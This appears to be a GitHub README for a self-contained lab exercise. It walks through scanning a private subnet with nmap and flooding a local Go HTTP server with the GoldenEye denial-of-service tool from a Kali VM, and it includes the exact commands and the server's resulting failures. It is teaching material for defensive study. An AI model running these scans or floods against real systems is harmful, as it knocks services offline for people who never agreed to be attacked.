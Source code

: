 # HackersDelight
A whitehats' playground

## DoS using Kali

In this experiment, we use 3 machines:  
1. Your laptop, running a Firefox web browser accessing our simple HTTP server.  
2. A VM running our simple HTTP server written in the Go programming language.  
3. A Kali VM as the machine attacking HTTP server.  

### Download Kali VM and DoS tool

Download and run [Kali VM](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)  

Login to the terminal shell of Kali VM, make your own working directory and `git clone https://github.com/jseidl/GoldenEye.git`  

Fix a [known issue](https://github.com/jseidl/GoldenEye/issues/27) in goldeneye.py, line 465:  
```python
#nrEncodings = random.randint(1,len(acceptEncoding)/2)
nrEncodings = random.randint(1, int(len(acceptEncoding)/2))
```

### HTTP Server - The victim

Get the IP of HTTP server vm:  
```sh
$ hostname -I
192.168.234.129
```

Go to the `httpserver` directory, do `chmod +x httpserver` of the binary is not executable.  
Then run the server.  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
```

### Laptop Firefox browser
From your laptop, use Firefox to access the HTTP server, `http://192.168.234.129:8288/hello`

### Kali VM - The Attacker

Go back to Kali VM to plan, prepare and attack a victim.  

***Recce phase***  
*1. Where and what am I? (What is my IP?)*  
```sh
$ hostname -I
192.168.234.128
```

*2. Who are around? (Select the victim)*  
```sh
$ nmap 192.168.234.*
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:34 EDT
Nmap scan report for 192.168.234.2
Host is up (0.00072s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
53/tcp open  domain

Nmap scan report for 192.168.234.128
Host is up (0.00075s latency).
All 1000 scanned ports on 192.168.234.128 are closed

Nmap scan report for 192.168.234.129
Host is up (0.0011s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.87 seconds
```

*3. What are ALL the open ports of victim?*
```sh
$ nmap -p- 192.168.234.129
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-26 05:35 EDT
Nmap scan report for 192.168.234.129
Host is up (0.00048s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8288/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 3.56 seconds
```

***Attack phase***  
*4. Now start attacking the victim using `goldeneye`.*  
```sh
$ ./goldeneye.py http://192.168.234.129:8288 -w 50 -s 100 -d
GoldenEye v2.1 by Jan Seidl <jseidl@wroot.org>

Hitting webserver in mode 'get' with 50 workers running 100 connections each. Hit CTRL+C to cancel.
Starting 50 concurrent workers
Starting worker Striker-2
Starting worker Striker-3
Starting worker Striker-4
Starting worker Striker-5
Starting worker Striker-7
Starting worker Striker-8
Starting worker Striker-6
Starting worker Striker-9
...
Starting worker Striker-41
Starting worker Striker-42
Starting worker Striker-45
Initiating monitor
Starting worker Striker-44
Starting worker Striker-46
Starting worker Striker-47
Starting worker Striker-48
Starting worker Striker-51
Starting worker Striker-50
Starting worker Striker-49
```
*5. The HTTP server starts to display errors.*  
```sh
$ ./httpserver 
2020/06/29 00:18:02 HTTP Server
2020/06/29 00:18:02 The final redirect URL for gateway router will be: https://dzone.com/refcardz/getting-started-with-etherium-private-blockchain
2020/06/29 00:18:02 0.0.0.0:8288 up and listening
2020/06/29 00:43:33 GET /hello HTTP/1.1
2020/06/29 00:43:33 Header["Accept-Language"] = ["en-US,en;q=0.5"]
2020/06/29 00:43:33 Header["Connection"] = ["keep-alive"]
2020/06/29 00:43:33 Header["Upgrade-Insecure-Requests"] = ["1"]
2020/06/29 00:43:33 Header["Accept"] = ["text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8"]
2020/06/29 00:43:33 Header["Dnt"] = ["1"]
2020/06/29 00:43:33 Header["Cache-Control"] = ["max-age=0"]
2020/06/29 00:43:33 Header["User-Agent"] = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"]
2020/06/29 00:43:33 Header["Accept-Encoding"] = ["gzip, deflate"]
2020/06/29 00:43:33 Host = "192.168.234.129:8288"
2020/06/29 00:43:33 RemoteAddr = "192.168.234.1:58641"
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 5ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 10ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 20ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 40ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 80ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 160ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 320ms
2020/06/29 00:43:49 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 640ms
2020/06/29 00:43:50 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:51 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:52 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:53 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:54 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
2020/06/29 00:43:55 http: Accept error: accept tcp [::]:8288: accept4: too many open files; retrying in 1s
...
```

*6. From your laptop, use Firefox to re-access the HTTP server, `http://192.168.234.129:8288/hello`, it waits and hangs.*  

